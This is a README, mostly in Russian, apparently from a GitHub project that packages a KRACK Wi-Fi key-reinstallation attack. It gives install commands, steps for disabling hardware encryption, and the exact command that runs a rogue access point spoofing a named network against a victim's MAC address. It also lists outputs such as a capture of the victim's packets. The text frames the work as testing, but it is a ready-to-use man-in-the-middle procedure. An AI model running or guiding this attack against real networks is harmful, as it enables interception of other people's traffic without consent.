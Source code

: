 ## Подготовка
This code was tested with the following equipaments:
* Тестер:
  * Ноутбук
  * Kali Linux 2018.4
  * 2 WIFI сетевые карты
  * 1 Ethernet сетевая карта или 4G - модем, или расшара интернета через мобильный интернет USB - Teathering
  
* Жертва (которая подключается к роутеру):
  * Ноутбук или Смартфон или Планшет с WIFI

* Роутер (точка доступа):

## Предустановка
Установить пакеты Kali Linux:
```
$sudo apt update
$sudo apt install dnsmasq libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git sysfsutils python-scapy python-pycryptodome
```
dnsmasq - обязательно установить, иначе интернет не будет работать у жертвы.

Install the following python package:
```
$pip install --user mitm_channel_based
```
Потом отключить аппаратное шифрование на WIFI у тестера **disable hardware encryption** через скрипт ./disable-hwcrypto.sh. Перезагрузиться (обязательно).
 
 ## Использование
 Запустить скрипт
 
 ```
 $sudo ./krackattack/krack_all_zero_tk.py wlan1 wlan0 usb0 "Familia Couto" -t 00:21:5d:ea:fe:be
 ```
 * `wlan1`: интерфейс, на котором слушаем и внедряем пакеты в реальный канал роутера
 * `wlan0`: интерфейс с поддельной базовой станцией
 * `usb0`: интерфейс с интернетом, может быть что угодно, Ethernet например
 * `"Familia Couto"`: SSID станции в роутеры, которую подделываем
 * `-t 00:21:5d:ea:fe:be`: MAC адрес жертвы
 * Другие настройки можно узнать так `./krackattack/krack_all_zero_tk.py -h`!
 
 **Внимание!**
 * Отключить Wi-Fi в диспетчере перед запуском скрипта!
 * После отключения Wi-Fi, запускаем команду: `$rfkill unblock wifi`!
 
 **Вывод**
 
 * `dnsmasq.conf`: конфигурация DHCP и DNS
 * `dnsmasq_log`: вывод dnsmasq
 * `hostapd_rogue.conf`: файл конфигурации поддельной базовой станции
 * `hostapd_rogue.log`: вывод поддельной базовой станции
 * `rogue_ap_capture.pcap`: файл с записанными пакетами, котороые прослушиваются на интерфейсе поддельной базовой станции.
